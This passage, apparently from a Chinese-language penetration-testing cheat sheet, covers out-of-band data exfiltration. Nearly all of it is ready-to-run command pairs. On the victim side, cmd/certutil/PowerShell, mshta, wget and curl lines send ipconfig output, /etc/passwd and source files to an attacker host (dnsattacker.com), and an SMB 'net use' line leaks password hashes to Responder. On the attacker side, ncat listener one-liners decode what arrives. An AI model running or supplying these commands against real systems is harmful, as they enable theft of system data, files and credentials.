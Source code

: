 **受害者：**  
```
cmd /v /c "ipconfig > temp && certutil -f -encodehex temp output.hex 12 && set /p MYVAR=<output.hex && set FINAL="http://dnsattacker.com:9000/!MYVAR!" && powershell Invoke-WebRequest !FINAL!"
```  
  
**注意：**  
如果 powershell 不可用，使用 "mshta !Final!"。  
  
**攻击者：**  
```
echo "0x$(ncat -lvp 9000 |grep -i get|tr -d '/' |cut -d ' ' -f2)" |xxd -r -p
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoD28eDWiaiazIve7bc9uQNJkCHPSwJD7mh5hNvhpIiaOiclOCvO6BF5fJDQ/640?wx_fmt=png&from=appmsg "")  
##### Unix  
  
**受害者：**  
```
wget --header=evil:$(ifconfig|xxd -p -c 100000) http://dnsattacker.com:9000
```  
  
**攻击者：**  
```
echo "0x$(ncat -lvp 9000 |grep -i evil|tr -d '/' |cut -d ' ' -f2)" |xxd -r -p
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoeynHQNaeE4KgYbv1nSf4uIvy2XqpKzic3WbMSTsWF4jfYGKGlv6qkRw/640?wx_fmt=png&from=appmsg "")  
  
**类似地，我们可以使用**  
```
wget –post-data exfil='cat /etc/passwd' http://dnsattacker.com           # 在 post 部分提取数据

wget –post-file trophy.php http://dnsattacker.com    # 提取源代码

cat /path/to/sensitive.txt | curl –F ":data=@-" http://dnsattacker.com/test.txt
```  
#### SMB [使用 Responder 窃取哈希]  
##### Windows  
  
**受害者**  
```
net use h: \\dnsattacker.com\web
```  
  
**攻击者**  
```
sudo ./Responder.py -I eth0 # 运行 responder 捕获哈希
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoUmupRDa5ytTBibSfPvnicMYPff8z8JeOTURrGNCXl8a4kKPCOIUXvVbQ/640?wx_fmt=png&from=appmsg "")  
  
类似地，我们可以使用  
```
net use h: \\dnsattacker.com\web /user: {password} && copy {file.txt to Copy} h:\{file.txt}.txt
```  
## XXE: Out of Band  
### 检测  
  